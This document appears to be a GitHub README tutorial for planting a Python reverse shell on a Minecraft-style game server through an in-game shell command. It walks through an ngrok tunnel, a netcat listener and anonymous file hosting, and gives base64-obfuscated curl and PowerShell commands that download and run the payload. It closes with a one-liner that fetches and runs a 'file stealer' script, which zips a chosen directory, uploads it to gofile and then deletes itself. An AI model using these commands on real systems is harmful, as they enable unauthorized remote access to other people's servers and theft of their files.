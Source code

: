 # Python Reverse Shell Tutorial (Linux and Windows)
### I made a [Windows batch script that does it all automatically](https://catlitter.minoa.cat/api/view/0137b23d50.zip), from installing Python, to compiling the code and uploading, it's all user-friendly

## On Your Own Computer
you will need [Python](https://www.python.org/downloads/), [Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip), & [Ngrok](https://ngrok.com)
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
`ngrok tcp 4444`


4. **Start Netcat**  
`nc -lvp 4444`


5. **Download and Edit Python File**
   - [Download the Python script n compiler](https://catlitter.minoa.cat/api/view/fafc8a7461.zip) and in rs.py edit the IP and port to be the Ngrok one.
   - (Must have python installed) run windows compile.bat and only if you have wsl setup you can run linux compile.bat and the files that show up are compilex executables.
   - Upload the compiled files to [anontransfer.com](https://anontransfer.com/)!
   - Once finished uploading goto the download url, click download, then go into your downlaod manager and copy the direct download link.

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL for whatever file to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into your Terminal**
   - While in, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
Linux:
`curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)`
###
Windows:
`powershell -Command "Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('{BASE64 GOES HERE}'))) -OutFile ([System.IO.Path]::GetFileName(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('{BASE64 GOES HERE}')))))"`

###

8. **Run the File**
Linux:
`chmod +x {FILENAME}`
 `./{FILENAME}`
Windows:
`start {FILENAME}`
 - If there are errors, idk..


# more
## Linux mc server file stealer
```
bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && bash ./steal.sh && rm -- steal.sh'
```
*(downloads and runs [this script](https://catlitter.minoa.cat/api/view/ad0b512a76b50c88ecef.sh) that zips and uploads whatever dir you enter to gofile and gives you the link only on linux)*
